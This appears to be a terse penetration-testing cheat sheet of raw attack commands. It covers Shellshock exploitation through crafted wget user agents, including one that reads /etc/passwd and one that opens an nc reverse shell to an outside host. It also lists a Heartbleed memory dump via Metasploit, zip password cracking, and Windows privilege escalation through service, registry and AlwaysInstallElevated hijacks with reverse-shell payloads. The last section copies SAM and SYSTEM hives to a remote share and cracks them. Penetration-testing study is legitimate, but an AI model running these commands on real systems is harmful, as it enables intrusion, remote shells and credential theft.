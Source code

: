 		env x=`() { :;}; echo vulnerable' bash -c "echo test"

		nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <IP> -p 80

		wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat/etc/passwd http://<IP>/cgi-bin/login.cgi && cat login.cgi

		wget -U "() { foo;};echo; /bin/nc <IP> <PORT> -e /bin/sh" http://<IP>/cgi-bin/login.cgi

	heartbleed test:

		nmap --script ssl-heartbleed <IP>

		if vulnerable:

			msfconsole -> auxiliary/scanner/ssl/openssl_heartbleed
			show actions (DUMP)
			leak file stored in .msf(versionNumber)/loot as a .bin file

	Crack zip:

		fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt <ZIP-FILE>


Windows Priv Esc::

	
	Insecure service permissions:

		accesschk.exe /accepteula -uwcqv <user> <service>
		sc qc <service>
		sc config <service> binpath= "\"C:\Path\To\revshell.exe\""
		net start <service>

	Unquoted path:

		sc qc <service>
		accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
		copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe" (Common Files folder)
		net start <service>

	Weak registry permissions:

		sc qc <service>
		accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service>
		reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

	Always install elevated:

		reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
		reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
		msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

	SAM Files:

		copy C:\WINDOWS\Repair\SAM \\<IP>\<SHARE>
		copy C:\WINDOWS\Repair\SYSTEM \\<IP>\<SHARE>
		pwdump.py SYSTEM SAM 
		hashcat -m 1000 --force <hash> /usr/share/wordlists
